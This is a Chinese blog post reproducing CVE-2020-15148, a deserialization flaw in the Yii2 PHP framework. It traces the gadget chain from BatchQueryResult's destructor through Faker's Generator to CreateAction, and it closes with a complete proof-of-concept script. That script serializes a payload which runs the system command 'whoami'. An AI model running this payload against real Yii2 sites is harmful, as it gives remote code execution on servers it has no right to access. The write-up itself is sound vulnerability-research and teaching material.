





# [php 反序列化] CVE-2020-15148(Yii2 反序列化漏洞) 漏洞复现 - Aur0ra* - 博客园

> 原文：[`www.cnblogs.com/Aurora-M/p/15659232.html`](https://www.cnblogs.com/Aurora-M/p/15659232.html)

## 漏洞影响范围

Yii2 < 2.0.38

## 环境搭建

Yii2.0.37

# 漏洞分析

## 首先定位到漏洞起始点

> 为什么是这儿？我们该怎么发现是某个类的某个函数？为什么不是其他函数？
> 一般是 __destruct 函数，而不选 __wakeup 函数。和开发的习惯有关，在 __wakeup 函数中一般是对反序列化的一种限制，例如安全检测等。所以常见的反序列化漏洞起始点是从 __destruct 函数开始的


## 跟进 reset 函数,如果内类不存在该方法，则可以进行 __call 方法的利用过程



## 其中$this->_dateReader 可控，直接进入 __call 方法的利用过程。全局搜索 __call 方法

> **小细节：当对无法访问的属性或者方法进行操作时，就会将其作为第一个参数传进 __call 或着 __get __set 等，如果调用方法同时还传入了参数，参数将会保存至 __call 方法的第二个变量中。这也是为什么后面需要将数组索引设置为 close 的原因**



## 跟进 format 函数



## 看到 call_user_func_array 就差不多可以说明存在 rce 了，但这里只能进行无参调用就有点鸡肋

> 这里还有个小 trick，可以通过[$object,$method]() 进行类内方法调用，后续就是这样构造的

> 貌似对于命名空间和使用命名空间的类的使用不熟悉
> 对于框架文件到底是怎么访问的也不是特别明白

## 成功执行 phpinfo 代码，但这样还是不能进行 RCE，所以我们下一步应该找一个无参且和 RCE 有关的函数



## （上面会不会调用 __invoke??）先跟着正常思路走一波

由于是无参函数的调用，所以我们直接使用正则表达式，匹配到无参函数且包含 call_user_func

> 至于为什么要包含 call_user_func？而不是其他的 system，exec 等函数，我想调用链是慢慢找出来的，可能对于这个漏洞最开始来说发现就是这种链子吧。等自己熟悉了，再慢慢挖自己想要的链子

> function \w*()\n? *{(.*\n)+ *call_user_func


两个位置的变量都可控，所以就可以 RCE,构造 POC

```
<?php
namespace yii\rest{
    class CreateAction{
        public function __construct(){
            $this->checkAccess = 'system';
            $this->id = 'whoami';
        }

    }
}

namespace Faker{
    use yii\rest\CreateAction;
    class Generator
    {
        protected $formatters;

        public function __construct()
        {
            $this->formatters['close'] = [new CreateAction(), 'run'];
        }
    }
}

namespace yii\db{
    use Faker\Generator;

    class BatchQueryResult{
        private $_dataReader;
        public function __construct()
        {
            $this->_dataReader=new Generator();
        }
    }
}

namespace{

    use yii\db\BatchQueryResult;

    echo urlencode(base64_encode(serialize(new BatchQueryResult())));
} 
```



# 成功

当然，还有很多链，只要思路广，道路千千万